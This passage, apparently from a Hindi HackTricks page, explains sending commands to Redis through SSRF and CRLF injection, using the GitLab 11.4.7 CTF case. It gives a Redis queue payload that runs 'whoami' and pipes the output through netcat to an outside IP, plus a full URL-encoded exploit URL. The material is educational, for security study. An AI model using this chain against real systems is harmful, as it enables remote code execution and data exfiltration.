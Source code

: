 यदि आप **स्पष्ट पाठ** अनुरोध **Redis** को भेज सकते हैं, तो आप **इसके साथ संवाद कर सकते हैं** क्योंकि Redis अनुरोध को पंक्ति दर पंक्ति पढ़ेगा और केवल उन पंक्तियों के लिए त्रुटियों के साथ प्रतिक्रिया देगा जिन्हें वह नहीं समझता:
```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
इसलिए, यदि आप एक वेबसाइट में **SSRF vuln** पाते हैं और आप कुछ **headers** (शायद एक CRLF vuln के साथ) या **POST parameters** को **control** कर सकते हैं, तो आप Redis को मनमाने कमांड भेजने में सक्षम होंगे।

### उदाहरण: Gitlab SSRF + CRLF से Shell

**Gitlab11.4.7** में एक **SSRF** सुरक्षा दोष और एक **CRLF** खोजा गया था। **SSRF** सुरक्षा दोष **नया प्रोजेक्ट बनाने के लिए URL से प्रोजेक्ट आयात करने की कार्यक्षमता** में था और इसने \[0:0:0:0:0:ffff:127.0.0.1] के रूप में मनमाने IPs तक पहुंचने की अनुमति दी (यह 127.0.0.1 तक पहुंचता है), और **CRLF** vuln का शोषण केवल **URL** में %0D%0A वर्ण जोड़कर किया गया था।

इसलिए, **Redis उदाहरण से बात करने के लिए इन सुरक्षा दोषों का दुरुपयोग करना संभव था** जो **gitlab** से **queues** का प्रबंधन करता है और उन queues का दुरुपयोग करके **कोड निष्पादन प्राप्त करना**। Redis queue दुरुपयोग payload है:
```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```
और **URL encode** अनुरोध **SSRF** और **CRLF** का दुरुपयोग करके `whoami` निष्पादित करने और आउटपुट को `nc` के माध्यम से वापस भेजने का तरीका है:
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
_किसी कारण से (जैसा कि_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _जहां से यह जानकारी ली गई थी) शोषण `git` स्कीम के साथ काम करता था और `http` स्कीम के साथ नहीं।_

{{#include ../banners/hacktricks-training.md}}
